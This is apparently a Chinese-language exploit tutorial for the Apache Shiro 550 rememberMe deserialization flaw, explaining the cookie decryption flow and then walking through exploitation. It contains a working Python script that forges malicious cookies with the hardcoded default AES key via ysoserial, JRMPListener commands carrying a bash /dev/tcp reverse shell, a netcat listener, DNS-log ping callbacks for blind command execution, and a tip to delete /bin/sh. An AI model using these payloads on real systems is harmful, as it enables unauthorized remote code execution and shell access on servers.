



# Shiro 550

​	

[TOC]


## 一：原理分析

Shiro默认使用了`CookieRememberMeManager`，其正常处理cookie的流程如下：

> 取出rememberMe的cookie值
>
> ​					⬇
>
> ​			Base64解码
>
> ​					⬇
>
> ​				AES解密
>
> ​					⬇
>
> ​				反序列化

然而在Shiro1.2.4及以前的版本，AES的密钥是在代码中硬编码的，就导致了攻击者可以构造恶意数据通过rememberMe的接口发送，触发反序列化，从而达到RCE的目的。 


**1.  getRememberedSerializedIdentity : 187,  CookieRememberMeManager (org.apache.shiro.web.mgt)**

首先从http请求中获取cookie，如果cookie值不等于"deleteMe"


调用ensurePadding来对取得的cookie填充`=`号


调用base64解码，返回一个bytes数组


**2.  getRememberedPrincipals:393, AbstractRememberMeManager (org.apache.shiro.mgt)**





调用convertBytesToPrincipals进行解密和反序列化


跟进decrypt函数，可以知道iv是encrypted的前16bytes，key是在AbstractRememberMeManager中定义的默认KEY，可以自己修改，大部分情况都是默认


最后把解密的数据给desirialize进行反序列化，反序列化的过程中调用了readObject


## 二：如何确定目标使用shiro

观察Cookie中是否带有rememberme字段


## 三：如何利用

公网VPS上需要准备编译好的ysoserial.jar，或者自己下载源码重新编译

下载本仓库中的exp，exp中需要用到pycrypto模块

```
apt-get install python-dev
pip install pycrypto
```

**半自动过程**

生成cookie的脚本

```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES


def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

```
python2 create_payload.py "ping -n 3 66fysa.ceye.io || ping -c 3 66fysa.ceye.io"
```

得到构造好的rememberme的cookie，带着cookie去访问target就好

python脚本将生成cookie


将cookie带入http请求中即可反弹shell


观察VPS上的Listenner已经接收到访问


**一键脚本**

生成payload并发包的脚本（`Shiro_550_RCE.py`）


**开始利用（以JRMPClient为例）**

1. 在VPS上监听反弹shell的命令

```
nc -lvp 4444
```

2. 在VPS上启动ysoserial的JRMPListener服务

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 "反弹shell的命令"
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections2 "bash -i >& /dev/tcp/xx.xxx.xx.xx/10086 0>&1"
```

CommonsCollections4也可以换成CommonsCollections2或者其他，需要根据服务器上的依赖版本选择不同的Conmoncollecctions

3. 修改参数并运行`Shiro_550_RCE.py`

```
python2 Shiro_550_RCE.py
```

4. 得到JRMP请求




5. 在docker中已经发现wget的test文件，内容也没错，但是在执行的时候



却没成功，使用bash就成功了，这可能是sh和bash的差异造成的


一般优先使用bash


假如要sh与bash起同样作用，可以

```
rm -rf /bin/sh
ln -s /bin/bash /bin/sh
```


很奇怪，为什么直接反弹shell会不成功，下载文件然后执行就可以成功，留坑


## 四：无回显的情况下利用

针对无回显的命令执行漏洞，让目标机执行`wget`、`nc`或者`curl`等命令，然后在公网主机监听对应的端口，通过日志来判断命令是否被执行。


该方法可行，不过缺陷有以下几点：


- 修改了目标机的文件系统
- 不具有通用性，如windows没有nc、linux没有wget的情况。
- 涉及到TCP数据传输，执行速度慢


一种更好的方式是使用dns日志来判断命令是否执行，流程如下：

- 生成一个特殊的域名，如 66fysa.ceye.io
- 构造payload让目标机执行 ping 66fysa.ceye.io

登录dns服务后台，如果后台记录了该域名的dns查询记录，即证明目标存在命令执行。


使用`ping`命令的时候有个坑，大部分linux系统执行`ping xxxx`时候会一直ping下去，而不是win里面执行4次之后退出。 
解决方案：使用 `ping -n 3 xxx.com || ping -c 3 xxx.com` 可以解决该问题并保证兼容性。


实际情况中会遇到很多入口与出口不同的情况，即我们向主机A发送payload，但是主机B执行了我们的ping命令。这时我们dns日志中的IP与A的IP无法匹配，就会造成漏报。 

解决方案：为每次验证生成独立、随机的域名，如`[random].shiro.xxx.com`，在`[random]`处使用10位随机字符或者递增的数字。这样只要以该域名为准查找日志，即可同时匹配到入口和出口主机IP。


